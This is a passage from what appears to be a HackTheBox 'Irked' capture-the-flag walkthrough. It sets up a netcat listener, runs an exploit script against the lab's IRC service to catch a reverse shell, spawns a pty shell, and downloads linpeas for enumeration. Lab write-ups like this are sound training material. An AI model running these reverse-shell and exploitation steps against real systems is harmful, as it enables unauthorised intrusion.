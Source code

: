 <br />
Start a netcat listener.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ sudo nc -nlvp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
```
{% endraw %}

<br />
Run the exploit and chose to use the netcat payload.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ python exploit.py -payload netcat 10.10.10.117 6697
```
{% endraw %}

<br />
Check the listener and catch the shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ sudo nc -nlvp 443                            
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.117] 51046
whoami
ircd
python3 -c 'import pty; pty.spawn("/bin/bash");'
ircd@irked:~/Unreal3.2$
```
{% endraw %}

<br />
Download the linpeas.sh to the attack machine.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/irked]
└─$ wget https://github.com/peass-ng/PEASS-ng/releases/download/20250126-41ed0f6a/linpeas.sh                  
--2025-01-27 13:00:32--  https://github.com/peass-ng/PEASS-ng/releases/download/20250126-41ed0f6a/linpeas.sh
Resolving github.com (github.com)... 4.237.22.38
Connecting to github.com (github.com)|4.237.22.38|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/98d382c4-9811-4ab6-8add-8117ade69f94?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250127%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250127T020034Z&X-Amz-Expires=300&X-Amz-Signature=aafb5222438eff93624081879f3719722dc54fb54f72ff5233f9100ffbe24e35&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream [following]
--2025-01-27 13:00:32--  https://objects.githubusercontent.com/github-production-release-asset-2e65be/165548191/98d382c4-9811-4ab6-8add-8117ade69f94?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20250127%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250127T020034Z&X-Amz-Expires=300&X-Amz-Signature=aafb5222438eff93624081879f3719722dc54fb54f72ff5233f9100ffbe24e35&X-Amz-SignedHeaders=host&response-content-disposition=attachment%3B%20filename%3Dlinpeas.sh&response-content-type=application%2Foctet-stream
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.108.133
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
```